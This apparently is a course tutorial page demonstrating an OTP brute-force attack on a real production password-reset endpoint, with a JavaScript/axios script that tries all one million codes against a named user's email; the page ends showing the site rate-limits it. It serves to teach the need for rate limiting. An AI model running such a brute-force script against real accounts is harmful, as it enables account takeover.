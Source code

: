 # Exploiting one in production

Try resetting password on [https://harkirat.classx.co.in](https://harkirat.classx.co.in/new-courses/2)

1.  Go to the website

2.  Put in a random users email

3.  Send OTP

4.  Try putting a random OTP

![notion image](https://www.notion.so/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F085e8ad8-528e-47d7-8922-a23dc4016453%2F6a05aa9e-bccf-461e-a03a-672049c8346c%2FScreenshot_2024-04-20_at_4.52.36_PM.png?table=block&id=833b43e9-8283-4815-8fab-3e55a4618b7e&cache=v2)

#### 

[](#5f8d30e566e64998a5d3736c725ff331 "Exploiting it")Exploiting it

*   Copy over the request from the network tab as `curl`

*   Paste it in Postman

![notion image](https://www.notion.so/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F085e8ad8-528e-47d7-8922-a23dc4016453%2Fc3725ac2-9a32-489b-877e-1a6a64aad083%2FScreenshot_2024-04-20_at_4.53.21_PM.png?table=block&id=71c4d1cd-1d37-4b73-8125-3da191a5e1ea&cache=v2)

*   Send a request via postman

*   Export the request

![notion image](https://www.notion.so/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F085e8ad8-528e-47d7-8922-a23dc4016453%2Fda6d3cec-d706-4dc7-82e4-49f2930fa706%2FScreenshot_2024-04-20_at_4.55.07_PM.png?table=block&id=b02f2453-d025-41d4-a7ef-53e153b512de&cache=v2)

*   Update the script to brute force on this endpoint

```javascript
import axios from "axios";

async function sendRequest(otp: number) {
  let config = {
    method: 'get',
    maxBodyLength: Infinity,
    url: 'https://harkiratapi.classx.co.in/get/otpverify?useremail=harkirat.iitr%40gmail.com&otp=' + otp,
    headers: { 
      'accept': '*/*', 
      'accept-language': 'en-GB,en-US;q=0.9,en;q=0.8', 
      'auth-key': 'appxapi', 
      'client-service': 'Appx', 
      'device-type': '', 
      'origin': 'https://harkirat.classx.co.in', 
      'priority': 'u=1, i', 
      'referer': 'https://harkirat.classx.co.in/', 
      'sec-ch-ua': '"Chromium";v="124", "Google Chrome";v="124", "Not-A.Brand";v="99"', 
      'sec-ch-ua-mobile': '?0', 
      'sec-ch-ua-platform': '"macOS"', 
      'sec-fetch-dest': 'empty', 
      'sec-fetch-mode': 'cors', 
      'sec-fetch-site': 'same-site', 
      'source': 'website', 
      'user-agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36'
    }
  };

  try {
    await axios.request(config);
  } catch (error) {
    console.error(error);
  }
}

async function main() {
  for (let i = 0; i < 1000000; i+=100) {
    const promises = [];
    console.log("here for " + i);
    for (let j = 0; j < 100; j++) {
      promises.push(sendRequest(i + j))
    }
    await Promise.all(promises);
  }
}

main()
```

You’ll get `rate limitted`

![notion image](https://www.notion.so/image/https%3A%2F%2Fprod-files-secure.s3.us-west-2.amazonaws.com%2F085e8ad8-528e-47d7-8922-a23dc4016453%2F7db48ad8-2a57-401b-b9dc-554fd0adb3d0%2FScreenshot_2024-04-20_at_4.56.49_PM.png?table=block&id=f32a6809-5b13-4c32-a282-edd19ff8909b&cache=v2)